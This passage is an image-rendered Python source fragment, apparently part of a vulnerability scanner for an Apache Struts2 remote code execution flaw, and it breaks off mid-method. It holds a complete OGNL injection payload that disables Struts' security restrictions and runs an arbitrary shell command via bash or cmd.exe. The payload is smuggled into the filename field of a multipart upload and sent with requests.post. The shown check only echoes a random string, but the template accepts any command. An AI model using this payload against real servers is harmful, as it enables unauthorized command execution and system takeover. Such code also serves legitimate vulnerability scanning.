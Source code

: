 ```python
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': 'multipart/form-data; boundary=---------------------------735323031399963166993862150'
        }
        
        self.payload = '''%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='CMD').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
        self.post_data = '''-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename="{payload}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:
        :return str True or False
        """
        
        try:
            self.check_payload = self.payload.replace('CMD', 'echo ' + self.capta)
            check_req = requests.post(self.url, headers = self.headers, data = self.post_data.format(payload = self.check_payload))
            if self.capta in check_req.text and len(check_req.text) < 100:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
```